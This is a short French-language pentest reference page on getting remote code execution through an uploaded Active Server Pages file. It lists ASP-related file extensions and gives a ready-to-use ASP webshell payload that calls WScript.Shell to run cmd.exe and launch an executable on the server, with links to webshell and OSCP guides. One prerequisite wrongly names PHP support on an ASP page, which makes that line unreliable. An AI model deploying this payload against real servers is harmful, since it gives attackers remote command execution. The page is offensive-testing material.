 # Active Server Pages

<img src="logo-asp.png" title="" alt="" height="200">

**Facteur de risque** : RCE via webshell

**Extension** : `.asp`, `.aspx`, `.cer`, `.asa`, `.asax`, `.cshtml`, `.vbhtml`

**Description** : **Active Server Pages** est une solution Microsoft de langage de script côté serveur, qui fonctionne avec VBScript et JScript.  Elle a été remplacé par **ASP.NET** en 2002.

## Sommaire

- RCE

## RCE

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

```visual-basic
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## References

- Web shells in PHP, ASP, JSP, Perl, and ColdFusion : http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf
- [Webshell &#xB7; Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

## Todo
